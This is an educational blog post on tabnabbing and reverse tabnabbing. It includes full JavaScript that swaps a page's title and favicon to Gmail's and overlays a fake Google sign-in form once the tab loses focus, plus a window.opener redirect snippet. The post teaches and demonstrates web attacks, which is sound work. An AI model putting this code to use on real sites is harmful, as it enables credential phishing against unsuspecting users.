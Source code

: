 ```yaml
---
title: Tabnabbing & Reverse Tabnabbing
date: '2022-12-23'
tags: ['web', 'security', 'software']
draft: false
summary: Tabnabbing, with its reverse variant, is an exploit enabling malicious actors to replace one of your browser's opened window to a site of their choosing.
---
```


# Introduction

When working with links and windows on the web, there are manly complex things to consider. Tabnabbing and reverse tabnabbing however, don't require complex factors in your code, and are both easy to pull off and defend against. These attacks mainly utilize the user's attention being somewhere else. While the user is occupied with something else, the tab is either replaced or changed in a way to permit a phishing attack.

# Tabnabbing

First, let's talk about the simple version: tabnabbing. The term was coined in [this article](http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html) by Aza Raskin and the steps as explained by them are as follows:

1. A user navigates to your normal looking site.
2. You detect when the page has lost its focus and hasn’t been interacted with for a while.
3. You replace the favicon with the Gmail favicon, the title with “Gmail: Email from Google”, and the page with a Gmail login look-a-like. This can all be done with just a little bit of Javascript that takes place instantly.
4. As the user scans their many open tabs, the favicon and title act as a strong visual cue—memory is malleable and moldable and the user will most likely simply think they left a Gmail tab open. When they click back to the fake Gmail tab, they’ll see the standard Gmail login page, assume they’ve been logged out, and provide their credentials to log in. The attack preys on the perceived immutability of tabs.
5. After the user has entered their login information and you’ve sent it back to your server, you redirect them to Gmail. Because they were never logged out in the first place, it will appear as if the login was successful.

As Raskin notes in their article, the phishing content can be customized for each user in a spear phishing attack. The attack is very effective when posing as bank websites as a critical website warning the user that their login has timed out will not seem suspicious to the user. A user's company, password manager or even government login could be compromised if the victim is not paying attention.

Here's the attack script as seen on [this site's blog page](tabnabbing.vercel.app/blog) mostly adapted from [this gist](https://gist.github.com/cabe56/96b387a7f901f0219c8c)

<details>
<summary>Click to expand</summary>
```javascript
<script id="tabnabbing-example" type="application/javascript">
  {typeof window !== 'undefined' &&
    (function () {
      var TIMER = null
      var HAS_SWITCHED = false

      // Events
      window.onblur = function () {
        TIMER = setTimeout(changeItUp, 3500)
      }

      window.onfocus = function () {
        if (TIMER) clearTimeout(TIMER)
      }

      // Utils
      function setTitle(text) {
        document.title = text
      }

      // This favicon object rewritten from:
      // Favicon.js - Change favicon dynamically [http://ajaxify.com/run/favicon].
      // Copyright (c) 2008 Michael Mahemoff. Icon updates only work in Firefox and Opera.

      const favicon = {
        docHead: document.getElementsByTagName('head')[0],
        set: function (url) {
          this.addLink(url)
        },

        addLink: function (iconURL) {
          var link = document.createElement('link')
          link.type = 'image/x-icon'
          link.rel = 'shortcut icon'
          link.href = iconURL
          this.removeLinkIfExists()
          this.docHead.appendChild(link)
        },

        removeLinkIfExists: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              this.docHead.removeChild(link)
              return // Assuming only one match at most.
            }
          }
        },

        get: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              return link.href
            }
          }
        },
      }

      function createShield() {
        var div = document.createElement('div')
        div.style.position = 'fixed'
        div.style.top = 0
        div.style.left = 0
        div.style.backgroundColor = 'white'
        div.style.width = '100%'
        div.style.height = '100%'
        div.style.textAlign = 'center'
        document.body.style.overflow = 'hidden'

        // var img = document.createElement('img')
        // img.style.paddingTop = '15px'
        // img.src = 'http://img.skitch.com/20100524-b639xgwegpdej3cepch2387ene.png'

        var oldTitle = document.title
        var oldFavicon = favicon.get() || '/favicon.ico'

        div.innerHTML = `<body>
              <div class="box">
                      <h2>Sign in</h2>
                      <p>Use your Google Account</p>
                      <form onsubmit="alert('You got tabnabbed! I hope you didnt enter your password!')">
                        <div class="inputBox">
                          <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
                          <label>Username</label>
                        </div>
                        <div class="inputBox">
                              <input type="text" name="text" required onkeyup="this.setAttribute('value', this.value);" value="">
                              <label>Password</label>
                            </div>
                        <input type="submit" name="sign-in" value="Sign In">
                      </form>
                    </div>
              </body>`
        //TODO: Afterwards actually route the page to mail.google.com to make sure the victim doesn't notice we tabnabbed them

        // div.appendChild(img)
        document.body.appendChild(div)
      }
      function changeItUp() {
        if (HAS_SWITCHED == false) {
          createShield('https://mail.google.com')
          setTitle('Gmail: Email from Google')
          favicon.set('https://mail.google.com/favicon.ico')
          HAS_SWITCHED = true
        }
      }
    })()}

</script>
```
</details>

# Reverse Tabnabbing

This is an attack where the victim clicks on an unsafely routed link, and when they are spending time on the newly opened page, the original page is replaced with malicious content. The original site containing the unsafe link can be completely oblivious to these events, it only serves to be replaced once the user has clicked the unsafe link.

Explanation given by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing) is as follows:

The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below.

The attack is also possible for link opened via the window.open javascript function.

## Examples

Vulnerable page([landing page of this site](tabnabbing.vercel.app)):

```jsx
<button
  onClick={() => {
    typeof window !== 'undefined' && window.open('https://tabnabbing.vercel.app/blog')
  }}
>
  Check out our blog!
</button>
```

Malicious site that is linked to([the blog page of this site](tabnabbing.vercel.app/blog)):

```html
<script id="reverse-tabnabbing-example" type="application/javascript">
  {
    typeof window !== 'undefined' &&
      (function () {
        if (window.opener) {
          window.opener.location = 'https://yildiz.edu.tr'
        }
      })()
  }
</script>
```

# Try it out

This blog contains code to enable tabnabbing and reverse tabnabbing attacks for educational purposes.
To get tabnabbed, visit the [projects](tabnabbing.vercel.app/projects) page and without leaving the page, either click on a project(which will open an external link in another tab) or just click away to another tab for a few seconds. When you look through your tabs, you might see a new fake gmail tab, with a fake gmail login page that contains a half-hearted attempt at imitating the real page's CSS. The phishing login can be improved by using a tool such as [SET](https://github.com/trustedsec/social-engineer-toolkit), this implementation is just for demonstration purposes.
If you would like to try out the reverse tabnabbing method, head to [the landing page of this site](tabnabbing.vercel.app) and click on the "announcement". When the new window is opened, you'll see the previous window changes to an unrelated site. This could be any site the attacker wants you to see, and if you're not paying attention it provides the attacker with an attack vector as big as their imagination.
Both attacks work on all major browsers, as long as the website contains the vulnerabilities described in the article.

# Solutions

The best method to ensure credentials safety on the web is to always use a password manager. There are many free and/or open source tools available, I personally use [Bitwarden](https://bitwarden.com/). There are credentials managers built into all major browsers that mostly negate these attacks and many more, because even if the user doesn't recognize that the login form they are about to fill is fake, the password manager will know, because the URL doesn't match the already-saved legit URL.

### Sources

- https://owasp.org/www-community/attacks/Reverse_Tabnabbing

- https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing

- http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html

- https://gist.github.com/cabe56/96b387a7f901f0219c8c

- https://github.com/EdwinOtten/reverse-tabnabbing-demo/

- https://santexgroup.com/blog/what-is-reverse-tabnabbing-and-why-is-it-important-to-be-aware-of/

- https://github.com/trustedsec/social-engineer-toolkit

- http://danielstjules.github.io/blankshield/

---
